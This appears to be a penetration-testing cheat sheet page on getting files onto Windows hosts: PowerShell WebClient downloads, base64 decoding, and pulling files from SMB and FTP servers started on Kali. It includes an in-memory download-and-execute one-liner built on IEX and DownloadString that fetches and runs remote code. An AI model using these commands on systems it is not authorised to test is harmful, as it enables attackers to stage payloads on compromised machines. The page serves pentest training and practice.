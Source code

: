 ```yaml
---
description: Windows file transfer download techniques
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Windows File Download

## Powershell

### Powershell Base64 Encode/Decode

#### Encode

```bash
$ cat <FILE> | base64 -w 0; echo
```

#### Decode

{% code overflow="wrap" fullWidth="false" %}
```powershell
PS C:\> [IO.File]::WriteAllBytes("<SAVE PATH>", [Convert]::FromBase64String("<Base64 String>"))
```
{% endcode %}

### Powershell Web Download

{% code overflow="wrap" %}
```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('<REMOTE FILE>','LOCAL FILE>')
```
{% endcode %}

### Powershell Web Download - In Memory

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE>')
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
PS C:\> (New-Object Net.WebClient).DownloadString('<FILE>') | IEX
```
{% endcode %}

## SMB

### Starting SMB Server From Kali

```bash
$ sudo impacket-smbserver share -smb2support /tmp/smb
```

```bash
$ sudo impacket-smbserver share -smb2support /tmp/smb -user test -password test
```

### Copy File From SMB Server

```batch
net use n: \\<IP>\<Share> /user:<USER> <PASS>
```

```batch
C:\> copy \\<IP>\<SHARE>\<FILE>
```

## FTP

### Starting FTP Server From Kali

```bash
$ sudo python3 -m pyftpdlib --port 21
```

### Copy File From FTP Server

{% code overflow="wrap" %}
```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', '<LOCAL FILE>')
```
{% endcode %}
